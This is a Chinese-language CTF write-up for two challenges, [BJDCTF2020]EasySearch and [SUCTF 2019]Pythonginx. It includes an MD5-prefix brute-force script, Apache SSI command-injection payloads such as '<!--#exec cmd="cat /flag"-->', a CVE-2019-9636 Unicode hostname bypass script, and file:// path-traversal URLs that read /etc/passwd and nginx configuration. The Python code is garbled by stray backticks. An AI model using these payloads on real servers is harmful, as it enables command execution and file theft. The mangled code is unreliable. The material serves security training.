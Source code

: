 ## [BJDCTF2020]EasySearch

### 1.源码查看

### 2.抓包发包

### 3.dirsearch扫描

### 知识点：Apache SSI远程命令执行漏洞

#### **一、漏洞描述**(标志：后缀.stm、.shtm 和 .shtml。)

当目标服务器开启了SSI与CGI支持,我们就可以上传shtml,利用

##### <!--#exec cmd=”id” -->

语法执行命令。

使用SSI(Server Side Include)的html文件扩展名，SSI（Server Side Include)，通常称为"服务器端嵌入"或者叫"服务器端包含"，是一种类似于ASP的基于服务器的网页制作技术。默认扩展名是 .stm、.shtm 和 .shtml。



发现index.php.swp源码泄露

![img](https://img2022.cnblogs.com/blog/2834847/202207/2834847-20220720220927628-664506527.png)

分析源代码发现password进行md5加密后前六位需要与'6d0bc1'相同

脚本：

import hashlib

for i in range(1000000000):
    md5 = hashlib.md5(str(i).encode('utf-8')).hexdigest()
    if md5[0:6] == '6d0bc1':
        print(str(i)+' | '+md5)

密码登录：发现发包回来的时候有一个url登进去发现是hello，（盲猜是名字，username）

可以猜一波是ssti

{{2*2}}可以发现是没有4的但是是{{2*2}}

不理解，可能是不一定4就是ssti吧

此处的问题的注入方式为：

<!--#exec cmd="命令" -->

<!--#exec cmd="whoami"-->

<!--#exec cmd="ls"-->

<!--#exec cmd="ls ../"-->

<!--#exec cmd="cat /flag"-->

神奇：没见过   完毕@！！下一题



## [SUCTF 2019]Pythonginx 1

### 知识点

- CVE-2019-9636：urlsplit不处理NFKC标准化
- nginx重要文件的位置
- url中的unicode漏洞引发的域名安全问题（19年black hat中的一个议题）
- 跑python脚本（逃~。。。。）

首先我们需要知道nginx重要文件的位置：

配置文件存放目录：/etc/nginx
主配置文件：/etc/nginx/conf/nginx.conf
管理脚本：/usr/lib64/systemd/system/nginx.service
模块：/usr/lisb64/nginx/modules
应用程序：/usr/sbin/nginx
程序默认存放位置：/usr/share/nginx/html
日志默认存放位置：/var/log/nginx
配置文件目录为：/usr/local/nginx/conf/nginx.conf@app.route('/getUrl', methods=['GET', 'POST'])
def getUrl():
    url = request.args.get("url")
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return "我扌 your problem? 111"


    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return "我扌 your problem? 222 " + host


    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    #去掉 url 中的空格
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return urllib.request.urlopen(finalUrl).read()
    else:
        return "我扌 your problem? 333"
#### 简单来说，需要逃脱前两个if，成功进入第三个if。

而三个if中判断条件都是相同的，不过在此之前的host构造却是不同的，这也是blackhat该议题中想要说明的一点

脚本：

```
from` `urllib.parse ``import` `urlparse,urlunsplit,urlsplit
from` `urllib ``import` `parse
def` `get_unicode():
  ``for` `x ``in` `range``(``65536``):
    ``uni``=``chr``(x)
    ``url``=``"http://suctf.c{}"``.``format``(uni)
    ``try``:
      ``if` `getUrl(url):
        ``print``(``"str: "``+``uni``+``' unicode: \\u'``+``str``(``hex``(x))[``2``:])
    ``except``:
      ``pass
```

 

```
def` `getUrl(url):
  ``url``=``url
  ``host``=``parse.urlparse(url).hostname
  ``if` `host ``=``=` `'suctf.cc'``:
    ``return` `False
  ``parts``=``list``(urlsplit(url))
  ``host``=``parts[``1``]
  ``if` `host ``=``=` `'suctf.cc'``:
    ``return` `False
  ``newhost``=``[]
  ``for` `h ``in` `host.split(``'.'``):
    ``newhost.append(h.encode(``'idna'``).decode(``'utf-8'``))
  ``parts[``1``]``=``'.'``.join(newhost)
  ``finalUrl``=``urlunsplit(parts).split(``' '``)[``0``]
  ``host``=``parse.urlparse(finalUrl).hostname
  ``if` `host ``=``=` `'suctf.cc'``:
    ``return` `True
  ``else``:
    ``return` `False 
```

```
if` `__name__``=``=``'__main__'``:
  ``get_unicode()
```

#### 我们只需要用其中任意一个去读取文件就可以了

比如：http://29606583-b54e-4b3f-8be0-395c977bfe1e.node3.buuoj.cn/getUrl?url=file://suctf.c%E2%84%82/../../../../../etc/passwd

先读一下etc/passwd

[![img](https://img2018.cnblogs.com/i-beta/1828215/202001/1828215-20200113143230558-1820695663.png)](https://img2018.cnblogs.com/i-beta/1828215/202001/1828215-20200113143230558-1820695663.png)

 

####  题目提示我们是nginx，所以我们去读取nginx的配置文件

这里读的路径是 /usr/local/nginx/conf/nginx.conf

http://29606583-b54e-4b3f-8be0-395c977bfe1e.node3.buuoj.cn/getUrl?url=file://suctf.c%E2%84%82/../../../../..//usr/local/nginx/conf/nginx.conf

看到有：

[![img](https://img2018.cnblogs.com/i-beta/1828215/202001/1828215-20200113143803189-1172498224.png)](https://img2018.cnblogs.com/i-beta/1828215/202001/1828215-20200113143803189-1172498224.png)

 

于是访问http://29606583-b54e-4b3f-8be0-395c977bfe1e.node3.buuoj.cn/getUrl?url=file://suctf.c%E2%84%82/../../../../..//usr/fffffflag

得到flag

[![img](https://img2018.cnblogs.com/i-beta/1828215/202001/1828215-20200113143859526-1498810239.png)](https://img2018.cnblogs.com/i-beta/1828215/202001/1828215-20200113143859526-1498810239.png)

贴上另外部分nginx的配置文件所在位置

```
配置文件存放目录：``/``etc``/``nginx``主配置文件：``/``etc``/``nginx``/``conf``/``nginx.conf``管理脚本：``/``usr``/``lib64``/``systemd``/``system``/``nginx.service``模块：``/``usr``/``lisb64``/``nginx``/``modules``应用程序：``/``usr``/``sbin``/``nginx``程序默认存放位置：``/``usr``/``share``/``nginx``/``html``日志默认存放位置：``/``var``/``log``/``nginx
```

# 抽象（）